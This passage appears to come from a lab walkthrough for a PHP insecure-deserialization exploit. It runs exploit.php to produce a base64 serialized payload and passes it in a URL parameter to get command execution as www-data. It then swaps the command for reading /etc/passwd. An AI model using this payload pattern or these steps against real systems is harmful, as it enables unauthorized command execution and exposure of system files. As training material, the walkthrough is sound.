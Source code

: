     - The `exploit.php` script requires PHP to run.

    ```bash
    php -v
    ```

    - If not installed, install PHP:

    ```bash
    sudo apt-get install php
    ```

2. **Run the Exploit Script**:

    ```bash
    php exploit.php
    ```

    - The script will output a URL parameter to use.

    **Example Output**:

    ```plaintext
    Use the following URL parameter:
    ?data=Tzo4OiJFeHBsb2l0IjozOntzOjM6ImNtZCI7czozOiJpZCI7fQ==
    ```

3. **Construct the Malicious URL**:

    - Append the `?data=<payload>` parameter to the application URL.

    **Example URL**:

    ```plaintext
    http://<EXTERNAL_IP>/?data=Tzo4OiJFeHBsb2l0IjozOntzOjM6ImNtZCI7czozOiJpZCI7fQ==
    ```

4. **Access the Malicious URL**:

    - Visit the constructed URL in your web browser.
    - The application should execute the `id` command and display the output.

    **Expected Output**:

    ```plaintext
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

#### **b. Customizing the Exploit**

- **Modify the Command**:

    - Edit `exploit.php` to change the `$cmd` variable to any arbitrary command, such as `ls`, `cat /etc/passwd`, etc.

    ```php
    public $cmd = 'cat /etc/passwd';
    ```

- **Generate a New Payload**:
